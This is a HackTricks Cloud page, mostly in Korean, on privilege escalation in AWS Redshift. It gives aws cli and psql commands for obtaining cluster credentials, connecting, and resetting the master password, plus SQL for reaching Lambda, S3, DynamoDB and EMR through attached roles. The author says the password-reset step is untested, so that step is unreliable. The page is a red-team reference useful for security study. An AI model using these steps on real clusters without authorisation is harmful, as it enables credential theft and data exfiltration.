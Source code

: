 # AWS - Redshift Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Redshift

RDS에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

이 권한을 사용하면 **모든 클러스터의 정보**(이름 및 클러스터 사용자 이름 포함)를 얻고 **접속할 수 있는 자격 증명**을 얻을 수 있습니다:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

이 권한을 사용하면 **모든 클러스터의 정보**를 얻고 **액세스할 수 있는 자격 증명**을 얻을 수 있습니다.\
postgres 사용자는 자격 증명을 얻는 데 사용된 **IAM ID의 권한**을 갖게 됩니다.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

aws cli를 통해 내부 postgres (redshift) 사용자의 **마스터 비밀번호를 수정**할 수 있습니다 (필요한 권한이라고 생각하지만 아직 테스트하지는 않았습니다):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

## 외부 서비스 접근

{% hint style="warning" %}
다음 모든 리소스에 접근하려면 **사용할 역할을 지정해야** 합니다. Redshift 클러스터는 **사용할 수 있는 AWS 역할 목록을 할당받을 수** 있으며, **ARN을 알고 있다면** 사용할 수 있습니다. 또는 그냥 "**default**"로 설정하여 할당된 기본 역할을 사용할 수 있습니다.

또한, [**여기에서 설명한 대로**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift는 추가 접근을 위해 역할을 연결할 수 있습니다(첫 번째 역할이 두 번째 역할을 수용할 수 있는 한) 단, **쉼표**로 **구분**해야 합니다: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### 람다

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r_CREATE_EXTERNAL_FUNCTION.html)에서 설명한 바와 같이, **Redshift에서 람다 함수를 호출하는 것이 가능합니다**:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

[https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html)에서 설명된 바와 같이, **S3 버킷에 읽고 쓸 수 있습니다**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

[https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t_Loading-data-from-dynamodb.html)에서 설명된 바와 같이, **dynamodb에서 데이터를 가져오는 것이 가능합니다**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
데이터를 제공하는 Amazon DynamoDB 테이블은 클러스터와 동일한 AWS 리전에서 생성되어야 하며, 그렇지 않으면 Amazon DynamoDB 테이블이 위치한 AWS 리전을 지정하기 위해 [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) 옵션을 사용해야 합니다.
{% endhint %}

### EMR

Check [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
